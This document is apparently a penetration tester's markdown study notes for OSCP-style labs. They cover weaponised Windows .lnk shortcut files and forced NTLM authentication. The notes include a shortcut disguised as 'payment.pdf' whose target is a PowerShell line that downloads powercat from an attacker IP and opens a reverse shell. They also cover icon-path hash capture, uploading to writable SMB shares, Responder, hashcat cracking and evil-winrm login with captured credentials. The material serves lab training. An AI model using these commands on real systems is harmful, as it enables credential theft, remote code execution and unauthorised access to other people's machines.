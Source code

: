 # Evil Windows Library File
- Tool: https://github.com/Greenwolf/ntlm_theft
- google search: generate force NTLMv2 Authentication files site:github.com
- This is allowed on OSCP as it is NOT automatic exploitation
- if you see a SMB share with writable permissions, upload an EVIL lnk file
- Use responder to catch NTLMv2 creds
- Box: ***Vault*** - Offsec PG Practice
- Demo during Hacktrack with Mentors, Assembling the pieces 3.
- reference PEN200 12.3.1 https://portal.offsec.com/courses/pen-200-44065/learning/client-side-attacks-48976/abusing-windows-library-files-49009/obtaining-code-execution-via-windows-library-files-48979
- https://field-manual.brunorochamoura.com/manual/exploitation/client-side-exploitation/evil-windows-library-file/
---
## Forced Authentication & .lnk File Abuse
Forced Authentication: 
	- Coerce Authentication via abusing legitimate file functions  
LNK icon smuggling:   
	- Coerce authenicaion via ICON paths
	- Execute malicious code via legitimate functions
	- WE can replace lnk files to point to a remote file
	- we can also make lnk files use binary, to exeucte some command we want
	- If you find a share we have write access to, upload our evil binary
	- Mount share  smbclient \\\\IP\ShareName  

---

### Craft EVIL .lnk File
- On windows desktop, right-click -> new shortcut
- Location:  %WINDIR%  -> next
- name: "payment.pdf"  -> finish
- WE will change icon to look like PDF.
- If target doesnt have view option, "show file extensions" on, our LNK will look like a .pdf file
- Right-click our EVIL lnk -> properties ->
- target:
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.158:8000/powercat.ps1');powercat -c 192.168.45.158 -p 4444 -e powershell"`
```
- OR 
target: `%ComSpec% /c echo pwned >%UserProfile\desktop\hacked.txt`
- %comspec% == cmd.exe
- change icon -> Look for icons in this file -> \\KALIIP\test.ico
- hit OK, there will be an error..
- It's possible on some Windwos Versions, that when user RENDERS icon, explorer.exe will try to fetch the icon.. no user-interaction required.
- This provides us with a connection from the target user/computer
- If we are running responder/relayx, we will have a hash or can relay for authentication
- Otherwise reverseshell maybe
- google search: generate force NTLMv2 Authentication files site:github.com
---
### Identify SMB Write Access
```
# check for guest access 
nxc smb 192.168.205.172 -u "guest" -p "" --shares
SMB         192.168.205.172 445    DC               [*] Enumerated shares
SMB         192.168.205.172 445    DC               Share           Permissions     Remark
SMB         192.168.205.172 445    DC               -----           -----------     ------
SMB         192.168.205.172 445    DC               DocumentsShare  READ,WRITE      
```
- Here we see DocumentsShare is mis-permissioned, and we, as GUEST, have write access.

---

### Listen With Responder
- responder is only in analyze mode, no poisoning or spoofing is being used
`sudo responder -I tun0 -A`
- Relay if you can't crack : [Impacket-ntlmrelayX](/03-Active-Directory/NTLMv2_Credential_Theft.md)

---

### Upload Evil LNK
```
smbclient \\\\192.168.165.172\\DocumentsShare -c 'put payment.pdf.lnk'
smbclient \\\\192.168.165.172\\DocumentsShare	# Alternate syntax with two commands
put payment.pdf.lnk
```
- Check responder, we should see NTLMv2 hit
- Once the user/scheduled task/automation touches/view or file, we should get a hash in responder

---

### Crack
Hash should be NTLMv2, and be autodetected by hashcat. 
If crack not possibly, we can also relay to another host.
hashcat hash /usr/share/wordlists/rockyou.txt
`hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force`

[Impacket-ntlmrelayX](/03-Active-Directory/NTLMv2_Credential_Theft.md)

---

### Use your New Found Power
Now that we have a password, we should re-enumerate shares
```
nxc smb 192.168.205.172 -u "anirudh" -p "SecureHM" --shares
nxc winrm 192.168.205.172 -u "anirudh" -p "SecureHM" --shares
evil-winrm -i 192.168.205.172 -u "anirudh" -p "SecureHM" 
```

### NTLM_THEFT
```bash
sudo responde
python3 /opt/ntlm_theft/ntlm_theft.py -g modern -s 192.168.45.158 -f ticket
```
